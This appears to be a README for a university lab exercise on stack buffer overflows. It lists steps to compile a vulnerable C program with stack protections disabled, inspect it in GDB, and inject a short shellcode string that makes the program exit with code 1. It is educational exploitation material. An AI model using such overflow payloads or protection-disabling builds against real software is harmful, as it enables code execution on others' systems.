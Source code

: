 # cmsc-134-mp1
Machine Problem 1: Buffer overflow to exit

## Steps
- Compile vuln.c using this command:
`gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -fno-pie -ggdb -z execstack -std=c99 vuln.c -o vuln`

- Open GDB:
`gdb vuln`

- Inside GDB put a breakpoint:
`break 1`OR `break vuln.c:5`

- Print the buffer's memory address:
`print &buffer`

- Show registers:
`info registers`

- Show frame:
`info frame`

- Compile the asm file:
`gcc -m32 -fno-stack-protector -fno-pie -std=c99 -masm=intel asm.c -o asm`

- Obtain machine code:
`objdump -d asm > asmdump`

- Save the shellcode:
`echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x58\xcb\xff\xff" > egg`

- Open GDB again
`run < egg`

## Result
You must have this message in your terminal

> [Inferior 1 (process 39346) exited with code 01]